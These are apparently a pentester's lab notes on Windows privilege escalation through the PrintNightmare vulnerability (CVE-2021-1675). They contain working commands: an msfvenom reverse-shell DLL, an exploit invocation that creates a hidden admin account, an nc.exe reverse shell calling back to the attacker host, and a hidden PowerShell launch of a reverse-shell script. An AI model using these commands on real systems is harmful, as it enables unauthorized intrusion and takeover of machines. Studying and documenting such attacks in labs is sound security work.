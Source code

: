 Potential privesc vector:
![[Pasted image 20240308105323.png]]
Manual check:
```cmd
reg query "HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"
```
Indeed it is disabled:
![[Pasted image 20240308105408.png]]

Exploit: https://github.com/calebstewart/CVE-2021-1675
Download the exploit script to the windows machine.

Use *msfvenom* to create a reverse shell DLL:
```bash
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f dll LHOST=10.0.0.11 LPORT=54311 > reverse_64bit.dll
```
Download "reverse_64bit.dll" to the windows machine.

Invoke the exploit script:
```cmd
powershell -ep bypass -c ". .\cve-2021-1675.ps1;Invoke-Nightmare -DLL reverse_64bit.dll"
```
Unfortunately the script produces an error:
![[Pasted image 20240308141429.png]]

If we invoke the exploit script without DLL it works, and per default creates a local admin user:
```cmd
powershell -ep bypass -c ". .\cve-2021-1675.ps1;Invoke-Nightmare"
```
Created an admin user (adm1n:P@ssw0rd):
![[Pasted image 20240308141614.png]]
User adm1n was indeed created:
![[Pasted image 20240308150907.png]]

Invoke system shell:
```cmd
runas /user:WORKGROUP\adm1n cmd.exe
```
Terminates immediately, and doesn't let us provide a password.

Tried a _LOT_ of commands to open a shell for the user adm1n. But failed...

Start new cmd process with powershell:
```cmd
powershell -command "$username='adm1n';$password='P@ssw0rd';$credentials=New-Object System.Management.Automation.PSCredential -ArgumentList @($username,(ConvertTo-SecureString -String $password -AsPlainText -Force));Start-Process nc.exe -ArgumentList '-e','cmd.exe','10.0.0.11','54311' -Credential ($credentials)
```

```
(Start-Process powershell.exe -Credential $credentials -Windowstyle Hidden -ArgumentList ("-noProfile -ExecutionPolicy Bypass -file C:\Program Files\Jenkins\revshell.ps1") -PassThru).WaitForExit()
```
